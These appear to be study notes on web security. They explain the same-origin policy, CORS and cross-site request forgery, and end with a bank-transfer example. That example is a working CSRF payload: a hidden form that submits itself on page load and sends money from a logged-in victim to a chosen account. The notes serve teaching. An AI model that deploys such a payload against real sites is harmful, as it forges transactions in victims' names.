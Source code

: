 #### Scope

It works with origin matching, which is way stricter than cookies:

- Protocol must match -- no crossing HTTP/HTTPS boudaries
- Port numbers must match
- Domain names must be an exact match -- no wildcarding or subdomain walking

#### SOP Loosening ⚠️

Three ways to make Same-Origin Policy less restrictive (⚠️to use with care⚠️)

- changing document.domain [MDN on document.domain](https://developer.mozilla.org/en-US/docs/Web/API/Document/domain)
- posting messages between windows
- CORS (cross-origin resource sharing)

#### CORS

Allows to make XMLHttpRequests to domain outside of your origin, but with special headers to signify where the request originates.

Relatively new features, security prospects largely unexplored.

(Play with CORS to get familiar with it)

### Cross-Site Request Forgery CSRF

CSRF is when an attacker tricks a victim into going to a page controlled by the attacker, which then submits data to the target site as the victim.

One of the most common vulnerabilities, and enables a lot of other vulnerabilities (namely XSS)

#### Example

The canonical example is a bank transfer site.
You have a form that allows a user to transfer money from their account to a destination account

```html
<form action='/levels/0/' method='POST'>
    <h2>Transfer Funds</h2>
    Destination account: <input type='input' name='to' value=''></br>
    Amount: <input type='input' name='amount' value=''>
    </br>
    </br>
    <input type='submit' value='Transfer'>
</form>
```

With this code below, you can have an automatic exploit if the user is logged in:

```html
<body onload='document.forms[0].submit()'>
    <form action='https://victim.vulnerable/levels/0/> method='POST'>
        <input type='hidden' name='amount' value='1000000'>
        <input type='hidden'name='to' value='1625'>
    </form>
</body>
```
